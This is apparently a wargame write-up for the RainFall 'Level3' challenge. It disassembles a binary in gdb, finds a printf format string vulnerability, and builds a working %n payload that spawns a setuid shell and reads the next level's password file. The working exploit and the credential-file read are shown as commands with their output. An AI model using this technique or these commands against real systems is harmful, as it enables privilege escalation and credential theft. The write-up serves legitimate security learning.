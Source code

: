 # Level3

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There is system() :)

```nasm
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218                            // Allocate a 536 bytes buffer
   0x080484ad <+9>:	mov    eax,ds:0x8049860                     // Move into eax stdin
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax            // Move that on esp+0x8 
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200          // Move size 0x200 = 512
   0x080484be <+26>:	lea    eax,[ebp-0x208]                    // Load into eax whatever is a ebp-0x208 (or esp+0x10)
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax                // And move it back on top of the stack
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>              // Call fgets
   0x080484cc <+40>:	lea    eax,[ebp-0x208]                    // Load into eax whatever is a ebp-0x208 (or esp+0x10)
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax                // And move it back on top of the stack     
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>             // Then call printf
   0x080484da <+54>:	mov    eax,ds:0x804988c                   // Move into eax an empty string ("") (maybe)
   0x080484df <+59>:	cmp    eax,0x40                           // Compare that with 0x40 (64)
   0x080484e2 <+62>:	jne    0x8048518 <v+116>                  // If not equal go to "leave" instruction
   0x080484e4 <+64>:	mov    eax,ds:0x8049880                   // Move into eax stdout
   0x080484e9 <+69>:	mov    edx,eax                            // And move it edx
   0x080484eb <+71>:	mov    eax,0x8048600                      // Move into eax the string "Wait what?!\n"
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx            // Move edx as an argument in stack
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc            // Move that as third argument
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1            // Move 1 as second argument
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax                // Move the string in eax as first argument
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>             // Call fwrite
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d          // Move "/bin/sh" on top of the stack
   0x08048513 <+111>:	call   0x80483c0 <system@plt>             // Then call system
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp                                  // All main does is call the v function
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

Try to execute system() by just jumping to it…

```nasm
(gdb) x/s 0x804860d
0x804860d:	 "/bin/sh"
(gdb) jump *0x080484e4
Continuing at 0x80484e4.
Wait what?!
$ cat /home/user/level4/.pass
cat: /home/user/level4/.pass: Permission denied
```

We indeed get a shell, but we can’t read the file, this is a **security feature of `gdb`** actually, so we should try the normal way !
`fgets` isn’t unsafe like `gets` so the exploit isn’t there

However: 

```nasm
0x080484c7 <+35>:	call   0x80483a0 [fgets@plt](mailto:fgets@plt)              // Call fgets
0x080484cc <+40>:	lea    eax,[ebp-0x208]                  // Load into eax whatever is a ebp-0x208 (or esp+0x10)
0x080484d2 <+46>:	mov    DWORD PTR [esp],eax              // And move it back on top of the stack
0x080484d5 <+49>:	call   0x8048390 printf@plt             // Then call printf
```

This part is interesting :

- We get user input from `fgets` on `stdin`
- And pass that directly to `printf`

This is known as a format string vulnerability :

`printf` is called with whatever we input in `stdin` and doesn’t check for format specifier, meaning we can read and write to any location in memory ! 
We can then trigger the `cmp` check :

```nasm
0x080484da <+54>:	mov    eax,ds:0x804988c                   // Move into eax an empty string ("") (maybe)
0x080484df <+59>:	cmp    eax,0x40                           // Compare that with 0x40 (64)
```

Which will then make the program execute `system` with `/bin/sh` and hopefully this time with the correct rights !

So we want to write 64 into `0x804988` 

When we call `printf` without a format string, it will read arguments from the stack in order, but where would our input be located in the stack ?
The stack should look something like that :

```nasm
[return address]
[saved frame pointer]
[local variables]
[format string pointer] <-- User input
```

In order to check we will craft a payload with a recognizable pattern : 

The %x format specifier will print whatever is on the stack in hexadecimal

```nasm
level3@RainFall:~$ echo -e "\x8c\x98\x04\x08AAAA%x %x %x %x %x %x %x" | ./level3
AAAA200 b7fd1ac0 b7ff37d0 804988c 41414141 25207825 78252078
level3@RainFall:~$
```

We notice in 4th position the address we target and in 5th position our pattern AAAA = 41414141

That means we need to target the 4th position and put in it 64. Our command should look like this :

```bash
echo -e "\x8c\x98\x04\x08%60c%4\$n" | ./level3
```

Where we have first : `\x8c\x98\x04\x08` the address that is 4 bytes long. Then `%60c` 60 more characters to bring the total to 64 as needed. And finally use `%n` (prints out how many characters were written so far) in combination with the `4$` specifier to target the 4th position in the stack : `%4\$n` (we need to escape the `$` symbol as we are not trying to read an environment variable.

And of course we maintain the connection with the shell using `cat` :

```bash
level3@RainFall:~$ (echo -e "\x8c\x98\x04\x08%60c%4\$n"; cat) | ./level3

Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
